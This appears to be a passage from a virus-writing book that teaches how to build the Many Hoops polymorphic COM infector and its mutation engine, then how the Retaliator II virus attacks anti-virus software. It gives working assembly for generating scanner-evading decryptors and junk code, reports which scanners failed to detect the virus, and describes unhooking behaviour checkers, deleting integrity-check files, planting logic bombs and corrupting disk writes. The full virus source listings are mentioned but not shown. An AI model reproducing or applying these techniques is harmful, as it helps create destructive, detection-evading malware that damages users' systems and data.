Many Hoops is a non-resident COM infector. (Yes, once again, something as complex as an EXE infector starts going beyond the ability of anti-virus software to cope with it.) It infects one new COM file in the current directory every time the virus executes. As such, it is fairly safe to experiment with.
Typically, polymorhic viruses have a few more hoops to jump through themselves than do ordinary viruses. Firstly, the virus doesn't have the liberty to perform multiple writes to the new copy of itself being attached to a host. Any variables in the virus must be set up in an image of the virus which is copied into a data area. Once the exact image of what is to be placed in the host is in that data area, an encrypt routine is called. This creates an encrypted copy of the main body of the virus, which can be attached to a host file.
Secondly, because the body of the virus is encrypted, it cannot have any relocatable segment references in it, like Intruder-B did. This is not a problem for a COM infector, obviously, but COM infectors are little more than demo viruses now a days.
Many Hoops is an appending COM infector not too different from the Timid virus discussed earlier. It uses a segment 64 kilobytes above the PSP for a data segment. Into this data segment it reads the host it intends to infect, and then builds the encrypted copy of itself after the host, installing the necessary patches in the host to gain control first.
In most of the viruses we've discussed up to this point, a form of scanning has been used to determine whether or not the virus is present. Ideally, a polymorhic virus can't be scanned for, so one cannot design one which detects itself with scanning. Typically, polymorphic viruses detect themselves using tricky little aspects of the file. We've already encountered this with the Military Police virus, which required the file's day plus time to be 31.
Typically such techniques allow the virus to infect most files on a computer's disk, however there will be some files that are not infectable simply because they have the same characteristics as an infected file by chance. The virus will thus identify them as infected, although they really aren't. The virus author must just live with this, although he can design a detection mechanism that will give false "infected" indications only so often. The Many Hoops virus uses the simple formula
(DATE xor TIME) mod 10 = 3
to detect itself. This insures that it will be able to infect roughly 9 out of every 10 files which it encounters.
With an encrypted virus, the only constant piece of code in the virus is the decryptor itself. If one simply coded the virus with a fixed decryptor at the beginning, a scanner could still obviously scan for the decryptor. To avoid this possibility, polymorphic viruses typically use a code generator to generate the decryptor using lots of random branches in the code to create a different decryptor each time the virus reproduces. Thus, no two decryptors will look exactly alike. This is the most complex part of a polymorphic virus, if it is done right. Again, in the example we discuss here, I've had to hold back a lot, because the anti-virus software just can't handle very much.
The best way to explain a decryptor-generator is to go through the design of one, step-by-step, rather than simply attempting to explain one which is fully developed. The code for such decryptors generally becomes very complex and convoluted as they are developed. That's generally a plus for the virus, because it makes them almost impossible to understand... and that makes it very difficult for an anti-virus developer to figure out how to detect them with 100% accuracy.
As I mentioned, the VME uses two different decryptor bases for encrypting and decrypting the virus itself. Here, we'll examine the development of a decryptor-generator for the first base routine.
Suppose the first base is generated by a routine GEN_DECRYPT0 in the VME. When starting out, this routine merely takes the form
GEN_DECRYPT0:
mov si,OFFSET DECRYPT0
mov di,OFFSET WHERE
mov cx,SIZE_DECRYPT0
rep movsb
ret
where the label WHERE is where the decryptor is supposed to be put, and DECRYPT0 is the label of the hard-coded decryptor.
The first step is to change this simple copy routine into a hard-coded routine to generate the decryptor. Essentially, one disposes of the DECRYPT0 routine and replaces GEN_DECRYPT0 with something like
mov al,0BEH ;mov si,0
stosb
_D0START EQU $+1
mov ax,0
stosw
mov al,0B9H ;mov cx,0
stosb
_D0SIZE EQU $+1
mov ax,0
stosw
_D0RAND1 EQU $+2
mov ax,00B3H ;mov bl,0
stosw
mov ax,1C30H ;xor [si],bl
stosw
mov al,46H ;inc si
stosb
mov ax,0C380H ;add bl,0
stosw
_D0RAND2 EQU $+1
mov al,0
stosb
mov ax,0F8E2H ;loop D0LP
stosw
The labels are necessary so that the INIT_BASE routine knows where to put the various values necessary to properly initiate the decryptor. Note that the INIT_BASE routine must also be changed slightly to accomodate the new GEN_DECRYPT0. INIT_BASE initializes everything that affects both the encryptor andthe decryptor. Code generation for the decryptor will be done by GEN_DECRYPT0, so INIT_BASE must modify it too, now.
So far, we haven't changed the code that GEN_DECRYPT0 produces. We've simply modified the way it is done. Note that in writing this routine, we've been careful to avoid potential instruction caching problems with the 386/486 processors by modifying code in a different routine than that which executes it. 1 We'll continue to exercise care in that regard.
Next, we make a very simple change: we call a routine RAND_CODE between writing every instruction to the decryptor in the work area. RAND_CODE will insert a random number of bytes in between the meaningful instructions. That will completely break up any fixed scan string. When we call RAND_CODE, we'll pass it two parameters: one will tell it what registers are off limits, the other will tell it how many more times RAND_CODE will be called by GEN_DECRYPT0.
RAND_CODE needs to know how many times it will be called yet, because it uses the variable RAND_CODE_BYTES, which tells how many extra bytes are available. So, for example, if there are 100 bytes available, and RAND_CODE is to be called 4 times, then it should use an average of 25 bytes per call. On the other hand, if RAND_CODE is to be called 10 times, it should only use an average of 10 bytes per call.
To start out, we design RAND_CODE to simply insert nop's between instructions. As such, it won't modify any registers, and it doesn't need the parameter to tell us what's off limits. This step allows us to test the routine to see if it is putting the right number of bytes in, etc. At this level, RAND_CODE looks like this:
;Random code generator. Bits set in al register tell which registers should
;NOT be changed by the routine, as follows: (Segment registers aren't changed)
;
; Bit 0 = bp
; Bit 1 = di
; Bit 2 = si
; Bit 3 = dx
; Bit 4 = cx
; Bit 5 = bx
; Bit 6 = ax
;
;The cx register indicates how many more calls to RAND_CODE are expected
;in this execution. It is used to distribute the remaining bytes equally.
;For example, if you had 100 bytes left, but 10 calls to RAND_CODE, you
;want about 10 bytes each time. If you have only 2 calls, though, you
;want about 50 bytes each time. If CX=0, RAND_CODE will use up all remaining
;bytes.
RAND_CODE_BYTES DW 0 ;max number of bytes to use up
RAND_CODE:
or cx,cx ;last call?
jnz RCODE1 ;no, determine bytes
mov cx,[bx][RAND_CODE_BYTES] ;yes, use all available
or cx,cx ;is it zero?
push ax ;save modify flags
jz RCODE3 ;zero, just exit
jmp short RCODE2 ;else go use them
RCODE1: push ax ;save modify flags
mov ax,[bx][RAND_CODE_BYTES]
or ax,ax
jz RCODE3
shl ax,1 ;ax=2*bytes available
xor dx,dx
div cx ;ax=mod for random call
or ax,ax
jz RCODE3
mov cx,ax ;get random betw 0 & cx
call GET_RANDOM ;random # in ax
xor dx,dx ;after div,
div cx ;dx=rand number desired
mov cx,dx
cmp cx,[bx][RAND_CODE_BYTES]
jc RCODE2 ;make sure not too big
mov cx,[bx][RAND_CODE_BYTES] ;if too big, use all
RCODE2: sub [bx][RAND_CODE_BYTES],cx ;subtract off bytes used
pop ax ;modify flags
mov al,90H ;use nops in for now
rep stosb
ret
RCODE3: pop ax
ret
and it is typically called like this:
mov al,0B9H ;mov cx,0
stosb
_D0SIZE EQU $+1
mov ax,0
stosw ;put instruction in workspace
mov aX,001001010B
mov cx,5
call RAND_CODE ;put random code in workspace
_D0RAND1 EQU $+2
mov ax,00B3H ;mov bl,0
stosw ;put instruction in workspace
The only thing we need to be careful about when calling this from GEN_DECRYPT0 is to remember we have added space in the decryption loop, so we must automatically adjust the relative offset in the loop jump to account for this. That's easy to do. Just push di at the point you want the loop to jump to, and then pop it before writing the loop instruction, and calcuate the offset.
The next step in our program is to make RAND_CODE a little more interesting. Here is where we first start getting into some real code generation. The key to building an effective code generator is to proceed logically, and keep every part of it neatly defined at first. Once finished, you can do some code crunching.
Right now, we need a random do-nothing code generator. However, what "do-nothing" code is depends on its context - the code around it. As long as it doesn't modify any registers needed by the decryptor, the virus, or the host, it is do-nothing code. For example, if we're about to move a number into bx, you can do just about anything to the bx register before that, and you'll have do-nothing code.
Passing a set of flags to RAND_CODE in ax gives RAND_CODE the information it needs to know what kind of instructions it can generate. In the preliminary RAND_CODE above, we used the only instruction which does nothing, a nop, so we didn't use those flags. Now we want to replace the rep movsb, which puts nops in the workspace, with a loop:
RC_LOOP: push ax
call RAND_INSTR
pop ax
or cx,cx
jnz RC_LOOP
Here, RAND_INSTR will generate one instruction - or sequence of instructions - and then put the instruction in the work space, and adjust cx to reflect the number of bytes used. RAND_INSTR is passed the same flags as RAND_CODE.
To design RAND_INSTR, we classify the random, do-nothing instructions according to what registers they modify. We can classify instructions as:
and so on.
Within these classifications, we can define sub-classes according to how many bytes the instructions take up. For example, class (1) above might include:
nop (1 byte)
mov r,r (2 bytes)
push r
pop r (2 bytes)
and so on.
Potentially RAND_INSTR will need classes with very limited capability, like (1), so we should include them. At the other end of the scale, the fancier you want to get, the better. You can probably think of a lot of instructions that modify at most one register. The more possibilities you implement, the better your generator will be. On the down side, it will get bigger too - and that can be a problem when writing viruses, though with program size growing exponentially year by year, bigger viruses are not really the problem they used to be.
Our RAND_INSTR generator will implement the following instructions:
Class 1:
nop
push r / pop r
Class 2:
or r,r
and r,r
or r,0
and r,0FFFFH
clc
cmc
stc
Class 3:
mov r,XXXX (immediate)
mov r,r1
inc r
dec r
That may not seem like a whole lot of instructions, but it will make RAND_INSTR large enough to give you an idea of how to do it, without making it a tangled mess. And it will give anti-virus software trouble enough.
All of the decisions made by RAND_INSTR in choosing instructions will be made at random. For example, if four bytes are avaialble, and the value of ax on entry tells RAND_INSTR that it may modify at least one register, any of the above instructions are viable options. So a random choice can be made beteween class 1, 2 and 3. Suppose class 3 is chosen. Then a random choice can be made between 3, 2 and 1 byte instructions. Suppose a 2 byte instruction is selected. The implemented possibility is thus mov r,r1. So the destination register r is chosen randomly from the acceptable possibilities, and the source register r1 is chosen completely at random. The two byte instruction is put in ax, and saved with stosw into the work space.
Generating instructions in this manner is not terribly difficult. Any assembler normally comes with a book that gives you enough information to make the connection between instructions and the machine code. If all else fails, a little experimenting with DEBUG will usually shed light on the machine code. For example, returning to the example of mov r,r1, the machine code is:
[89H] [0C0H + r1*8 + r]
where r and r1 are numbers corresponding to the various registers (the same as our flag bits above):
0 = ax 1 = cx 2 = dx 3 = bx 4 = sp 5 = bp 6 = si 7 = di
So, for example, with ax = 0 and dx = 2, mov dx,ax would be
[89H] [0C0 + 0*8 + 2]
or 89H C2H. All 8088 instructions involve similar, simple calcuations. The code for generating mov r,r1 randomly thus looks something like this:
xor al,0FFH ;invert flags as passed call GET_REGISTER ;get random r, using mask push ax ;save random register mov al,11111111B ;anything goes this time call GET_REGISTER ;get a random register r1 mov cl,3 shl al,cl ;r1*8 pop cx ;get r in cl or al,cl ;put both registers in al or al,0C0H ;al=C0+r1*8+r mov ah,al mov al,89H ;mov r,r1 stosw ;off to work space pop cx sub cx,2
A major improvement in RAND_INSTR can be made by calling it recursively. For example, one of our class 1 instructions was a push/pop. Unfortunately a lot of push/pop's of the same register is a dead give-away that you're looking at do-nothing code - and these aren't too hard to scan for: just look for back-to-back pairs of the form 50H+r / 58H+r. It would be nice to break up those instructions with some others in between. This is easily accomplished if RAND_INSTR can be recursively called. Then, instead of just writing the push/pop to the workspace:
mov al,11111111B
call GET_REGISTER ;get any register
add al,50H ;push r = 50H + r
stosb
pop cx ;get bytes avail
pop dx ;get register flags
sub cx,2 ;decrement bytes avail
add al,8 ;pop r = 58H + r
stosb
you write the push, call RAND_INSTR, and then write the pop:
mov al,11111111B
call GET_REGISTER ;get any register
pop cx ;get bytes avail
add al,50H ;push r = 50H + r
stosb
pop dx ;get register flags
push ax ;save "push r"
sub cx,2 ;decrement bytes avail
cmp cx,1 ;see if any left
jc RI02A ;nope, go do the pop
push cx ;keep cx!
call GEN_MASK ;legal to modify the
pop cx ;register we pushed
xor al,0FFH ;so work it into mask
and dl,al ;for more variability
mov ax,dx ;new register flags
call RAND_INSTR ;recursive call
RI02A:pop ax
add al,8 ;pop r = 58H + r
stosb
The next essential step in building a viable mutation engine is to generate automatic variations of the decryptor. Let's look at Decryptor 0 to see what can be modified:
DECRYPT0:
mov si,OFFSET START
mov cx,SIZE
mov bl,RAND1
D0LP: xor [si],bl
inc si
add bl,RAND2
loop D0LP
Right off, the index register si could obviously be replaced by di or bx. We avoid using bp for now since it needs a segment override and instructions that use it look a little different. (Of course, doing that is a good idea for an engine. The more variability in the code, the better.) To choose from si, di or bx randomly, we just call GET_REGISTER, and store our choice in GD0R1. Then we build the instructions for the work space dynamically. For the mov and inc, that's easy:
mov r,X = [B8H + r] [X] inc r = [40H + r]
For the xor, the parameter for the index register is different, so we need a routine to transform r to the proper value,
xor [R],bl = [30H] [18H + R(r)] R(si)= 4 R(di)= 5 R(bx)= 7
The second register we desire to replace is the one used to xor the indexed memory location with. This is a byte register, and is also coded with a value 0 to 7:
0 = al 1 = cl 2 = dl 3 = bl 4 = ah 5 = ch 6 = dh 7 = bh
So we select one at random with the caveat that if the index register is bx, we should not use bl or bh, and in no event should we use cl or ch. Again we code the instructions dynamically and put them in the work space. This is quite easy. For example, in coding the instruction add bh,0 (where 0 is set to a random number by INIT_BASE) we used to have
mov ax,0C380H ;"add bh,
stosw
_D0RAND2 EQU $+1
mov al,0 ; ,0"
stosb
This changes to:
mov al,80H
mov ah,[bx][GD0R2] ;get r
or ah,0C0H ;"add r
stosw
_D0RAND2 EQU $+1
mov al,0 ; ,0"
stosb
Next, we might want to add some variation to the code that GEN_DECRYPT0 creates that goes beyond merely changing the registers it uses. The possibilities here are - once again - almost endless. I'll give one simple example: The instruction
xor [r1],r2
could be replaced with something like
mov r2',[r1] xor r2',r2 mov [r1],r2'
where, if r2=bl then r2'=bh, etc. To do this, you need four extra bytes, so it's a good idea to check RAND_CODE_BYTES first to see if they're available. If they are, make a decision which code you want to generate based on a random number, and then do it. You can also put calls to RAND_CODE between the mov/xor/mov instructions. The resulting code looks like this:
mov al,[bx][GD0R1] ;r1
call GET_DR ;change to ModR/M value
mov ah,[bx][GD0R2]
mov cl,3
shl ah,cl
or ah,al ;ah = r2*8 + r1
push ax
cmp [bx][RAND_CODE_BYTES],4 ;make sure room for largest rtn
pop ax
jc GD2 ;if not, use smallest
push ax
call GET_RANDOM ;select between xor and mov/xor/mov
and al,80H
pop ax
jz GD2 ;select xor
xor ah,00100000B ;switch between ah & al, etc.
mov al,8AH
stosw ;mov r2',[r1]
pop dx ;get mask for RAND_CODE
push dx
push ax
push dx
mov ax,dx
mov cx,8
call RAND_CODE
mov al,[bx][GD0R2] ;get r2
mov cl,3
shl al,cl
or al,[bx][GD0R2] ;r2 in both src & dest
xor al,11000100B ;now have r2',r2
mov ah,30H
xchg al,ah
stosw ;xor r2',r2
pop ax
mov cx,8
call RAND_CODE
pop ax
mov al,88H
stosw ;mov [r1],r2'
sub [bx][RAND_CODE_BYTES],4 ;must adjust this!
jmp SHORT GD3
GD2: mov al,30H ;xor [r1],r2
stosw
GD3:
Well, there you have it - the basics of how a mutation engine works. I think you can probably see that you could go on and on like this, convoluting the engine and making more and more convoluted code with it. Basically, that's how it's done. Yet even at this level of simplicity, we have something that's fooled some anti-virus developers for two and a half years. Frankly, that's a shock to me. It tells me that some of these guys really aren't doing their job. You'll see what I mean in a few minutes. First, we should discuss one other important aspect of a polymorphic virus.
At the heart of any mutation engine is a pseudo-random number generator. This generator - in combination with a properly designed engine - will determine how many variations of a decryption routine it will be possible to generate. In essence, it is impossible to design a true random number generator algorithmically. To quote the father of the modern computer, John Von Neumann, "Anyone who considers arithmetical methods of producing random digits is, of course, in a state of sin."
A true random number generator would be able to produce an infinity of numbers with no correlation between them, and it would never have the problem of getting into a loop, where it repeats its sequence. Algorithmic pseudo-random number generators are not able to do this. Yet the design of the generator is very important if you want a good engine. If the generator has a fault, that fault will severely limit the possible output of any engine that employs it.
Unfortunately, good random number generators are hard to come by. Programmers don't like to pay a lot of attention to them, so they tend to borrow one from somewhere else. Thus, a not-so-good generator can gain wide circulation, and nobody really knows it, or cares all that much. But that can be a big problem in a mutation engine. Let me illustrate: Suppose you have an engine which makes a lot of yes-no decisions based on the low bit of some random number. It might have a logic tree that looks something like Figure 24.1. However, if you have a random number generator that alternates between even and odd numbers, only the darkened squares in the tree will ever get exercized. Any code in branches that aren't dark is really dead code that never gets used. It's a lot easier to write a generator like that than you might think, and such generators might be used with impunity in different applications. For example, an application which needed a random real number between 0 and 1, in which the low bit was the least significant bit, really may not be sensitive to the non-random sequencing of that bit by the generator.
Thus, in writing any mutation engine, it pays to consider your random number generator carefully, and to know its limitations.
Here we will use what is known as a linear congruential sequence generator. This type of generator creates a sequence of random numbers Xn by using the formula
Xn+1 = (aXn + c) mod m
where a, c and m are positive integer constants. For proper choices of a, c and m, this approach will give you a pretty good generator. (And for improper choices, it can give you a very poor generator.) The LCG32.ASM module included with the VME listed here uses a 32-bit implementation of the above formula. Given the chosen values of a, c and m, LCG32 provides a sequence some 227 numbers long from an initial 32-bit seed. To implement LCG32 easily, it has been written using 32-bit 80386 code.
Figure 24.1: What a bad random number generator does.
This is a pretty good generator for the VME, however, you could get an even better one, or write your own. There is an excellent dissertation on the subject in The Art of Computer Programming, by Donald E. Knuth. 2
The seed to start our random number generator will come from - where else - the clock counter at 0:46C in the machine's memory.
Results with real anti-virus software trying to detect the Many Hoops virus are somewhat disappointing, and frightening. I'll say it again: This virus is two and one half years old. It has been published more than once. Any anti-virus program worth anything at all should be able to detect it 100% by now.
Well, let's take a look at a few to see how they do.
To test a real anti-virus program against a polymorphic virus, you should generate lots of examples of the virus for it to detect. Each instance of the virus should look a little different, so you can't test against just one copy. An anti-virus program may detect 98% of all the variations of a polymorphic virus, but it may miss 2%. So lots of copies of the same virus are needed to make an accurate test.
A nice number to test with is 10,000 copies of a virus. This allows you to look at detection rates up to 99.99%with some degree of accuracy. To automatically generate 10,000 copies of a virus, it's easiest to write a little program that will write a batch file that will generate 10,000 infected programs in a single directory when executed. This isn't too hard to do with Many Hoops, since it's a non-resident COM infector that doesn't jump directories. It's safe and predictable. The program 10000.PAS, listed later in this chapter, generates a batch file to do exactly this. Using it, you can repeat our tests. Your results might be slightly different, just because you'll get different viruses, but you'll get the general picture.
I'll only quote the results I had with scanners that are available either as shareware or which are widely distributed. That way you can test the results for yourself.
First, we tested F-PROT Version 2.18a, released June 8, 1995. In "secure scan" mode, out of 10,000 copies of Many Hoops, it detected 96 as being infected with the Tremor virus and two with the Dark Avenger Mutation Engine, and that was it. So you have only 98 false alerts, and no proper detections - a 0% detection rate, or a 0.98% detection rate, depending on how you cut it. In heuristics mode, F-PROT did a little better. It reported the same 98 infections, another 24 were reported as "seem to be infected with a virus", and a whopping 6223 were reported to contain suspicious code normally associated with a virus.
Next, we tested McAfee Associates SCAN, Version 2.23e, released June 30, 1995. Out of 10,000 copies of Many Hoops, it detected0 as beinginfectedwith anything at all. Interestingly, some earlier versions of SCAN did give some false alerts, suggesting that the Trident Polymorphic Engine was present from time to time. Evidently McAfee cleaned up their Trident detection routine so it no longer detects VME at all.
The only widely distributed scanner that did well was the Thunder Byte Anti-Virus, Version 6.25, released October, 1994. It detected 10,000 out of 10,000 infections. Hey! a fairly good product after all! Hats off to Franz Veldman and Thunderbyte! Anyway, since there is a decent product publicly available which will detect it, I feel fairly confident that making this virus public will not invite rampant infection.
Obviously, polymorphic viruses don't tackle the challenges posed by integrity checking programs, so software like the Integrity Master also does very well detecting this virus.
Viruses need not be limited to being polymorphic only on disk. Many scanners examine memory for memory-resident viruses as well. A virus can make itself polymorphic in memory too.
To accomplish this task, the virus should encrypt itself in memory, and then place a small decryptor in the Interrupt Service Routine for the interrupt it has hooked. That decryptor can decrypt the virus and the balance of the ISR, and then go execute it. At the end of the ISR the virus can call a decryptor which re-encrypts the virus and places a new decryptor at the start of the ISR.
The concept here is essentially the same as for a polymorphic virus on disk, so we leave the development of such a beast to the exercises.
The following is the source for the Many Hoops virus. The two ASM files must be assembled into two object modules (.OBJ) and then linked together, and linked with the VME. These should be assembled using MASM or TASM. Here is a batch file to perform the assembly properly:
tasm manyhoop; tasm vme; tasm lcg32; tasm host; tlink /t manyhoop vme lcg32 host, manyhoop.com
The Visible Mutation Engine can be assembled to an object module, and theoretically linked with any virus that can call the public subroutine ENCRYPT.
The idea behind a mutation engine is fairly simple. The ENCRYPT routine is passed two pointers. This routine will take whatever code is at one pointer (the source), encrypt it, and put the encrypted code in memory at the other pointer (the destination). And of course, you have to provide the caller with a decryptor as well. (See Figure 24.2)
Figure 24.2: VME Input and Output
The VME, uses ds:si for the source pointer and es:di for the destination. The cx register is used to tell the engine the number of bytes of code to encrypt; bx specifies the starting offset of the decryption routine. The dx register is used to optionally specify the size of the decryption routine. If dx=0 upon entry, the engine will choose a random size for the decryptor. This approach provides maximum flexibility and maximum retrofitability. These parameters are the bare minimum for building a useful engine. No doubt, the reader could imagine other useful parameters that might be added to this list.
The engine is accessible to a near call. To make such a call, a virus sets up the registers as above, and calls ENCRYPT.
On return, the engine will set the carry flag if there was any problem performing the encryption. if successful, cx will contain the number of bytes in the destination code, which includes both the decryptor and the encrypted code; es:di will point to the start of the decryptor. All other registers except the segment registers are destroyed.
The engine is designed so that all offsets in it are entirely relocatable, and it can be used with any COM infecting virus. The following module, VME.ASM, should be assembled with TASM or MASM.
The Visible Mutation Engine Source
Put the following into a file called LCG32.ASM and assemble it to an object file for linking with Many Hoops.
If you want to generate 10,000 instances of an infection with the Many Hoops for testing purposes, the following Turbo Pascal program will create a batch file, GEN10000.BAT, to do the job. Watch out, though, putting 10,000 files in one directory will slow your machine down incredibly. (You may want to modify it to generate only 1,000 files instead.) To use the batch file, you'll need TEST.COM and MANYHOOP.COM in a directory along with GEN10000.BAT, along with at least 25 megabytes of disk space. Installing SMARTDRV will save lots of time.
GEN10000.PAS is as follows:
And the TEST.ASM file looks like this:
Viruses do not have to simply be unwilling victims of anti-virus software, like cattle going off to slaughter. They can and do retaliate against the software which detects and obliterates them in a variety of ways.
As we've discussed, scanners detect viruses before they are executed, whereas programs like behavior checkers and integrity checkers catch viruses while they are executing or after they have executed at least once. The idea behind a retaliating virus is to make it dangerous to execute even once. Once executed, it may turn the anti-virus program itself into a dangerous trojan, or it may fool it into thinking it's not there.
We've already discussed stealth techniques - how viruses fool anti-virus programs into believing they're not there by hiding in memory and reporting misinformation back on system calls, etc. In this chapter, we'll discuss some more aggressive techniques which viruses generally use to target certain popular anti-virus software. Generally I classify retaliating software as anything which attempts to permanently modify various components of anti-virus software, or which causes damage when attempts are made to disinfect programs.
Behavior checkers are especially vulnerable to retaliating viruses because they are normally memory resident programs. Typically, such programs hook interrupts 21H and 13H, among others, and monitor them for suspicious activity. They can then warn the user that something dangerous is taking place and allow the user to short-circuit the operation. Suspicious activity includes attempts to overwrite the boot sector, modify executable files, or terminate and stay resident.
The real shortcoming of such memory-resident anti-viral programs is simply that they are memory resident - sitting right there in RAM. And just as virus scanners typically search for viruses which have gone memory-resident, a virus could search for anti-virus programs which have gone memory-resident. There are only a relatively few memory-resident anti-virus programs on the market, so scanning for them is a viable option.
Finding scan strings for anti-virus programs is easy. Just load the program into memory and use MAPMEM or some similar program to find one in memory and learn what interrupts are hooked. Then use DEBUG to look through the code and find a suitable string of 10 or 20 bytes. Incorporate this string into a memory search routine in the virus, and it can quickly and easily find the anti-virus program in memory. The process can be sped up considerably if you write a fairly smart search routine. Using such techniques, memory can be scanned for the most popular memory-resident anti-viral software very quickly. If need be, even expanded or extended memory could be searched.
Once the anti-virus has been found, a number of options are available to the virus.
A virus may simply go dormant when it's found hostile software. The virus will then stop replicating as long as the anti-virus routine is in memory watching it. Yet if the owner of the program turns his virus protection off, or passes the program along to anyone else, the virus will reactivate. In this way, someone using anti-viral software becomes a carrier who spreads a virus while his own computer has no symptoms.
Alternatively, the virus could simply trigger a logicbomb when it detects the anti-virus routine, and trash the hard disk, CMOS, or what have you. Such a logic bomb would have to be careful about using DOS or BIOS interrupts to do its dirty work, as they may be hooked by the anti-viral software. The best way to retaliate is to spend some time dissecting the anti-virus software so that the interrupts can be un-hooked. Once un-hooked, they can be used freely without fear of being trapped.
Finally, the virus could play a more insidious trick. Suppose an anti-virus program had hooked interrupt 13H. If the virus scanned and found the scan string in memory, it could also locate the interrupt 13H handler, even if layered in among several other TSR's. Then, rather than reproducing, the virus could replace that handler with something else in memory, so that the anti-virus program itself would damage the hard disk. For example, one could easily write an interrupt 13H handler which waited 15 minutes, or an hour, and then incremented the cylinder number on every fifth write. This would make a horrible mess of the hard disk pretty quickly, and it would be real tough to figure out why it happened. Anyone checking it out would probably tend to blame the anti-viral software.
A variation on putting nasties in the anti-virus' interrupt hooks is to simply go around them, effectively uninstalling the anti-virus program. Find the original vector which they hooked, and replace the hook with a simple
jmp DWORD PTR cs:[OLD_VEC]
and the anti-virus will sit there in memory happily reporting that everything is fine while the virus goes about its business. Finding where OLD_VEC is located in the anti-virus is usually an easy task. Using DEBUG, you can look at the vector before the anti-virus is installed. Then install it, and look for this value in the anti-virus' segment. (See Figure 25.1)
Figure 25.1: Finding the old Interrupt Vector.
Of course, mixtures of these methods are also possible. For example, a virus could remain quiet until a certain date, and then launch a destructive attack.
The virus we'll examine in this chapter, Retaliator II, picks on a couple popular anti-virus products. It is a simple non-resident appending EXE infector which does not jump directories - very similar to Intruder B.
Retaliator II scans for the VSAFE program distributed by Microsoft with DOS 6.2, and Flu Shot + Version 1.84. These programs hook a number of interrupts and alert the user to attempts to change files, etc. (Turn option 8, executable file protection, on for VSAFE.) Retaliator II easily detects the programs in memory and does one of two things. Fifteen out of sixteen times, Retaliator II simply unhooks Interrupts 21H and 13H and goes on its way. Once unhooked, the anti-viruses can no longer see the virus changing files. However, Retaliator II also has a one in sixteen chance of jumping to a routine which announces "Retaliator has detected ANTI-VIRUS software. TRASHING HARD DISK!" and proceeds to simulate the disk activity one might expect when a hard disk is being systematically wiped out. This trashing is only a simulation though. No damage is actually being done. The disk is only being read.
Designing a virus which can retaliate against integrity checkers is a bit more complicated, since they don't reside in memory. It usually isn't feasible to scan an entire hard disk for an integrity checker from within a virus. The amount of time and disk activity it would take would be a sure cue to the user that something funny was going on. Since the virus should remain as unnoticeable as possible - unless it gets caught - another method of dealing with integrity checkers is desirable. If, however, sneaking past a certain integrity checker is a must, a scan is necessary. To shorten the scan time, it is advisable that one start the scan by looking in its default install location.
Alternatively, one might just look in its default location. That doesn't take much time at all. Although such a technique is obviously not fool proof, most users (stupidly) never think to change even the default directory in the install sequence. Such a default search could be relatively fast, and it would allow the virus to knock out the anti-virus the first time it gained control.
Another method to detect the presence of an integrity checker is to look for tell-tale signs of its activity. For example, Microsoft's VSAFE, Microsoft's program leaves little CHKLIST.MS files in every directory it touches. These contain integrity data on the files in that directory. Many integrity checkers do this. For example, Central Point Anti-Virus leaves CHKLIST.CPS files, Integrity Master leaves files named ZZ##.IM, Thunderbyte leaves files named ANTI-VIR.DAT. McAfee's SCAN program appends data to EXE's with integrity information. If any of these things are found, it's a sure clue that one of these programs is in operation on that computer.
Some of these integrity checkers have gaping security holes which can be exploited by a virus. For example, guess what VSAFE does if something deletes the CHKLIST.MS file? It simply rebuilds it. That means a virus can delete this file, infect all the files in a directory, and then sit back and allow VSAFE to rebuild it, and in the process incorporate the integrity information from the infected files back into the CHKLIST.MS file. The user never sees any of these adjustments. VSAFE never warns him that something was missing. (Note that this works with Central Point Anti-Virus too, since Microsoft just bought CPAV for DOS.)
Some of the better integrity checkers will at least alert you that a file is missing, but if it is, what are you going to do? You've got 50 EXEs in the directory where the file is missing, and you don't have integrity data for any of them anymore. You scan them, sure, but the scanner turns up nothing. Why was the file missing? Are any of the programs in that directory now infected? It can be real hard to say. So most users just tell the integrity checker to rebuild the file and then they go about their business. The integrity checker may as well have done it behind their back without saying anything, for all the good it does.
So by all means, a virus should delete these files if it intends to infect files in a directory that contains them. Alternatively, a smart virus could update the files itself to reflect the changes it made. Deciphering that file, however, could be a lot of work. The Retaliator II chooses to delete them with the DEL_AV_FILES routine. (Such a virus might actually be considered beneficial by some people. If you've ever tried to get rid of a program that leaves little files in every directory on your disk, you know it's arealpain!)
With measures like what SCAN uses, the data which the program attaches to EXEs can be un-done without too much work. All one has to do is calculate the size of the file from the EXE header, rather than from the file system, and use that to add the virus to the file. An alternative would be to simply be quiet and refuse to infect such files. Retaliator II does no such thing. As it turns out, McAfee's SCAN Version 2.23e is so stupid it doesn't even notice the changes made to these programs by Retaliator II in its normal course of infection.
If a virus finds an anti-virus program like an integrity checker on disk, it might go and modify that integrity checker. At a low level, it might simply overwrite the main program file with a logic bomb. The next time the user executes the integrity checker... whammo! his entire disk is rendered useless. Viruses like the Cornucopia use this approach.
A more sophisticated way of dealing with it might be to disassemble it and modify a few key parts, for example the call to the routine that actually does the integrity check. Then the integrity checker would always report back that everything is OK with everything. That could go on for a while before a sleepy user got suspicious. Of course, you have to test such selective changes carefully, because manyofthese products containsome self-checks to dissuade you from making such modifications.
Any scanning methods or looking for auxiliary files or code are unreliable for finding an integrity checker, though. Properly done, an integrity checker will be executed from a write-protected floppy and it will store all its data on a floppy too, so a virus will not normally even have access to it.
Thus, though scanning will help defuse some integrity checkers, it still needs a backup.
Apart from scanning, a virus could check for changes it has made to other executables and take action in the event that such changes get cleaned up. Of course, such an approach means that the virus must gain control of the CPU, make some changes, and release control of the CPU again. Only once it gains control a second time can it check to see if those changes are still on the system. This is just taking the concept of integrity checking and turning it back around on the anti-virus: a virus checking the integrity of the infections it makes.
Obviously, there is a certain amount of risk in any such operation. In between the first and second executions of the virus, the anti-viral software could detect the change which the virus made, and track down the virus and remove it. Then there would be no second execution in which the virus gains control, notices its efforts have been thwarted, and then retaliates.
If, however, we assume that the virus has successfully determined that there is no dangerous memory-resident software in place, then it can go out and modify files without fear of being caught in the act. The most dangerous situation that such a virus could find itself in would be if an integrity shell checked the checksum of every executable on a disk both before and after a program was executed. Then it could pinpoint the exact time of infection, and nail the program which last executed. This is just not practical for most users, though, because it takes too long. Also, it means that the integrity checker and its integrity information are on the disk and presumably available to the virus to modify in other ways, and the integrity checker itself is in memory - the most vulnerable place of all. Nothing to worry about for the virus that knows about it. Normally, though, an integrity checker is an occasional affair. You run it once in a while, or you run it automatically from time to time.
So your integrity checker has just located an EXE file that has changed. Now what? Disassemble it and find out what's going on? Not likely. Of course you can delete it or replace it with the original from your distribution disks. But with a retaliating virus you must find the source of the infection immediately. If you have a smart enough scanner that came with your integrity shell, you might be able to create an impromptu scan string and track down the source. Of course, if the virus is polymorphic, that may be quite impossible. However, if anything less than a complete clean-up occurs at this stage, one must live with the idea that this virus will execute again, sooner or later.
